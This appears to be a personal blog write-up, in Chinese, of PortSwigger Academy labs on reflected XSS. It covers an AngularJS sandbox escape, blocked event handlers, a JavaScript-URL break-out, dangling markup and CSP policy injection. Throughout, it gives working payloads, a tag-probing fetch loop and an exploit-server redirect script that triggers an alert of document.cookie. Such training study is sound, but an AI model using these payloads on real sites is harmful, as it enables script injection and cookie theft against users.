這題是真的精妙，我從來沒想過可以用 `toString()` 的方式來構建字串，學習了

## Lab: Reflected XSS with AngularJS sandbox escape and CSP

| Dimension | Description                                                                                                                             |
| --------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection#how-does-an-angularjs-csp-bypass-work |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp    |

我們有的工具包如下：

| Malicious JavaScript                                                                 | Description                                                                                                                         |
| ------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------- |
| `<input autofocus ng-focus="$event.path\|orderBy:'[].constructor.from([1],alert)'">` | `$event.path` contains an array of DOM objects which also contains the window object as the last element before Chrome 109          |
| `<input autofocus ng-focus=$event.composedPath()\|orderBy:'(y=alert)(1)'>`           | `$event.composedPath()` contains an array of DOM objects which also contains the window object as the last element after Chrome 109 |
| `[1].map(alert)`                                                                     | Use `alert` as callback function                                                                                                    |
| `[alert].pop()(1)`                                                                   | `[alert].pop() === alert`                                                                                                           |
| `(y=alert)(1)`                                                                       | Use assignment cause AngularJS think it's safe                                                                                      |

1. 注入 `{{ 1 }}`，看到結果是 `0 search results for '1'`，代表 AngularJS expression `{{}}` 可以成功注入～
2. 注入 `{{ $event.path }}`，結果是 `0 search results for ''`
3. 注入 `{{ $event.composedPath() }}`，結果是 `0 search results for ''`
4. 注入很長的字串，結果是 `"Search term cannot exceed 80 characters"`
5. 注入 `{{ [1].map(alert) }}`，看到錯誤訊息 `TypeError: undefined is not a function`
6. 注入 `{{ <div>123</div> }}`，看到 `<div>123</div>` 成功變成 DOM
7. 注入 `{{ <input ng-focus=$event.composedPath()|orderBy:'(y=alert)(1)'> }}`，可成功在 focus 執行 `alert(1)`
8. 注入 ``，可成功在 focus 執行 `alert`，但無法自行 focus

研究到這邊，已知知道注入方向，但無法限制在 80 字內，所以後來參考答案，不得不說真的厲害

9. 注入 `<div></div>`，看到 `<div></div>` 成功變成 DOM，代表不用 `{{}}` 也可以
10. 注入 `<input id=x ng-focus=$event.composedPath()|orderBy:'(y=alert)(document.cookie)'>`
11. 在 exploit-server 輸入
<!-- prettier-ignore -->

```html
<script>
  location.href = `https://0aa8003304121a7482df06a900fb009e.web-security-academy.net/?search=${encodeURIComponent("<input id=x ng-focus=$event.composedPath()|orderBy:'(y=alert)(document.cookie)'>")}#x`;
</script>
```

這題由於限制 80 字，如果用 `<input autofocus` 會超過，所以答案是用 `<input id=x`，搭配在網址的 hash 加上 `#x`，真的是很聰明的做法～

## Lab: Reflected XSS with event handlers and `href` attributes blocked

| Dimension | Description                                                                                                       |
| --------- | ----------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#xss-between-html-tags                          |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked |

題目已有給提示

1. onEvent 都不能用
2. href 不能用

實測看看哪些 tag 能用

```js
const tags = `a
a2
abbr
acronym
address
applet
area
article
aside
audio
audio2
b
bdi
bdo
big
blink
blockquote
body
br
button
canvas
caption
center
cite
code
col
colgroup
command
content
custom tags
data
datalist
dd
del
details
dfn
dialog
dir
div
dl
dt
element
em
embed
fieldset
figcaption
figure
font
footer
form
frame
frameset
h1
head
header
hgroup
hr
html
i
iframe
iframe2
image
img
input
input2
input3
input4
ins
kbd
keygen
label
legend
li
link
listing
main
map
mark
marquee
menu
menuitem
meta
meter
multicol
nav
nextid
nobr
noembed
noframes
noscript
object
ol
optgroup
option
output
p
param
picture
plaintext
pre
progress
q
rb
rp
rt
rtc
ruby
s
samp
script
section
select
shadow
slot
small
source
spacer
span
strike
strong
style
sub
summary
sup
svg
table
tbody
td
template
textarea
tfoot
th
thead
time
title
tr
track
tt
u
ul
var
video
video2
wbr
xmp`.split("\n");
async function test() {
  for (const tag of tags) {
    const html = `<${tag}>Click me</${tag}>`;
    const res = await fetch(
      `${location.origin}/?search=${encodeURIComponent(html)}`,
    );
    console.log({ onevent, status: res.status });
  }
}
test();
```

最終得出 `a`, `image`, `svg`, `title`

這題後來也是投降，參考解答，給出的 payload 讓我又學到 `<animate attributeName="href" values="javascript:alert(1)" />` 這個新東西了～

<!-- prettier-ignore -->
```html
<svg><a><animate attributeName="href" values="javascript:alert(1)" /><text x=20 y=20>Click me</text></a></svg>
```

## Lab: Reflected XSS in a JavaScript URL with some characters blocked

| Dimension | Description                                                                                                   |
| --------- | ------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#breaking-out-of-a-javascript-string        |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked |

我們有的工具包如下：

| Malicious JavaScript                          | Description                                                                           |
| --------------------------------------------- | ------------------------------------------------------------------------------------- |
| `onerror=alert;throw 1`                       | `alert(1)` without using ( and )                                                      |
| `<script>onerror=alert;throw 1337</script>`   | Set `onerror` event on window, `alert(1337)` without using `(` and `)`                |
| `<script>{onerror=alert}throw 1337</script>`  | Set `onerror` event on window, `alert(1337)` without using `(`, `)` and `;`           |
| `<script>throw onerror=alert,'haha'</script>` | Set `onerror` event on window, `alert(1337)` without using `(`, `)`, `{`, `}` and `;` |

這題的注入點在這裡

<!-- prettier-ignore -->
```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d1'}).finally(_ => window.location = '/')">Back to Blog</a>
```

想像上 `/post?postId=1` 到這邊都是必備的

這題也是妖魔鬼怪，看了答案也是看不懂的那種

```
/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```

會產生以下 html

<!-- prettier-ignore -->
```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window%2b%27%27,{x%3a%27'}).finally(_ => window.location = '/')">Back to Blog</a>
```

<!-- todo-yusheng -->

恩...實在是看不懂，我覺得這題有空再回來看吧

## Reflected XSS protected by very strict CSP, with dangling markup attack

| Dimension | Description                                                                                                                                                                                                                        |
| --------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dangling-markup#what-is-dangling-markup-injection<br/>https://portswigger.net/web-security/cross-site-scripting/content-security-policy#mitigating-xss-attacks-using-csp |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack                                                                                                  |

首先找到注入點在 email，構造 `/my-account?email=123`，會產生以下 html

<!-- prettier-ignore -->
```html
<input required type="email" name="email" value="123">
```

嘗試關閉標籤，構造 `/my-account?email=123"/>
```html
<input required="" type="email" name="email" value="123">

```

看一下網站的 CSP

<!-- prettier-ignore -->
```
content-security-policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';
```

這題的重點是要注入 `123"/><a href="https://exploit-0a91000904b1726d809507f0011000e3.exploit-server.net/">Click Me</a><base target='`，讓 html 結構變成以下

<!-- prettier-ignore -->
```html
<input required="" type="email" name="email" value="123">
<a href="https://exploit-0a91000904b1726d809507f0011000e3.exploit-server.net/">Click Me</a>
<base target='">
                            <input required type="hidden" name="csrf" value="wkxoIiRnkTeOOKgcuHeTTeXaKwFUGU4Q">
                            <button class='
```

但我實測在 Chrome 139，這個方法已經不管用，另開新頁的 `window.name` 只會拿到空字串，所以這題應該沒辦法解了

後來查詢了 PortSwigger 的相關文章，找到 [Bypassing CSP with dangling iframes](https://portswigger.net/research/bypassing-csp-with-dangling-iframes)，裡面就有說到

Our Web Security Academy has a topic on [dangling markup injection](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) - a technique for exploiting sites protected by [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy). But something interesting happened when we came to update to Chrome 97 - because one of our interactive labs mysteriously stopped working. When we originally made this lab, Chrome prevented dangling markup-based attacks by looking for raw whitespace followed by `"<"` characters - but forgot to prevent background attributes (as discovered by [Masato Kinugawa](https://twitter.com/kinugawamasato)).

Unfortunately, from Chrome 97 this technique no longer worked, so I was tasked to try and find an alternative.

## Lab: Reflected XSS protected by CSP, with CSP bypass

| Dimension | Description                                                                                                           |
| --------- | --------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/content-security-policy#bypassing-csp-with-policy-injection |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-bypass                      |

[script-src-elem](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src-elem) 是我第一次聽到的 CSP，以前沒有用過，感覺應該找時間把 [CSP 的文章](../http/content-security-policy-1.md) 寫一寫了XD

先觀察網站的 Respone Headers 設定的 CSP

```
content-security-policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

嘗試在搜尋框輸入 `<script>alert(1)</script>`，可成功注入，但會被 CSP 擋住

```
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI='), or a nonce ('nonce-...') is required to enable inline execution.
```

後來看了 [Bypassing CSP with policy injection](https://portswigger.net/research/bypassing-csp-with-policy-injection)，我覺得這題一定跟這個有關，於是嘗試

```
/?token=123
```

成功讓 CSP 變成

```
content-security-policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=123
```

接著就是直接注入 `token=123; script-src-attr 'unsafe-inline'&search=<input autofocus onfocus=alert(1) />`，整個 URL 變成

<!-- prettier-ignore -->
```
/?token=123;%20script-src-attr%20%27unsafe-inline%27&search=%3Cinput%20autofocus%20onfocus=alert(1)%20/%3E
```

這題算是 expert 當中蠻簡單的題目XD

## 小結

本來以為我在實戰中有找過蠻多 XSS 的漏洞，解 XSS 系列的題目應該會比較簡單，結果我還是太高估自己了...在這 30 題的過程，其實我也學到蠻多新的攻擊手法，也看了大神寫的文章，每每看到新的攻擊手法，就會覺得很讚嘆，怎麼有人這麼聰明，可以想到這些解法啊！總而言之，花了大概 2 ~ 3 天的時間把 XSS 系列的題目解完，覺得是收穫滿滿，也讓我再次意識到自己的渺小。繼續往下一個主題邁進吧！

但不得不說，最後 6 題 EXPERT 等級的，是真的蠻難的！題目不會很明確的跟你說是哪個頁面的哪個功能有 XSS 漏洞，所以需要花一點時間去研究，但 PRACTITIONER 等級的就比較親民，基本上跟著文章還有題目的介紹，都算是可以快速的定位 XSS 漏洞的注入點。這也是我覺得實戰跟刷題不一樣的地方，實戰會需要自行尋找可能的 XSS 漏洞注入點，並且利用已知的攻擊手法去測試，但刷題的話，我覺得概念會比較像是學習新的攻擊手法，即便沒有解出來也沒關係，有學到就好～

蠻開心能在累積一些實戰經驗後再來刷題，感覺跟當初在學習 [SQL Injection](./sql-injection.md) 的時候不一樣，有一點基礎再來解題，會看到不一樣的世界。

## 參考資料

- https://portswigger.net/web-security/cross-site-scripting
